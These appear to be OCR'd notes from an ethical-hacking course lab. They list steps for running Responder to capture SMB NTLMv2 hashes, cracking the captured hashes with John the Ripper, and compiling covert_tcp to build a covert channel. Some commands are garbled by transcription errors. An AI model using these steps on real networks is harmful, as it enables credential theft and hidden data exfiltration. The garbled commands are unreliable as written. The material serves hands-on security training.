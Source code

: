   - cd Responder

  - chmox +x ./Responder.py

  - **sudo ./Responder.py -I eth0**

  - passwd: \*\*\*\*

- **Windows**

  - run

  - \CEH-Tools

- **Linux:**

  - Home/Responder/logs/SMB-NTMLv2-SSP-\[IP\].txt

  - sudo snap install john-the-ripper

  - passwd: \*\*\*\*

  - **sudo john
    > /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

**Lab3-Task6: Covert Channels using Covert_TCP**

- **Attacker:**

  - cd Desktop

  - mkdir Send

  - cd Send

  - echo \"Secret\"-\>message.txt

  - Place-\>Network

  - Ctrl+L

  - **smb://\[IP\]**

  - Account & Password

  - copy and paste covert_tcp.c

  - **cc -o covert_tcp covert_tcp.c**

- **Target:**

  - **tcpdump -nvvx port 8888 -I lo**

  - cd Desktop

  - mkdir Receive

  - cd Receive

  - File-\>Ctrl+L

  - smb://\[IP\]

  - copy and paste covert_tcp.c
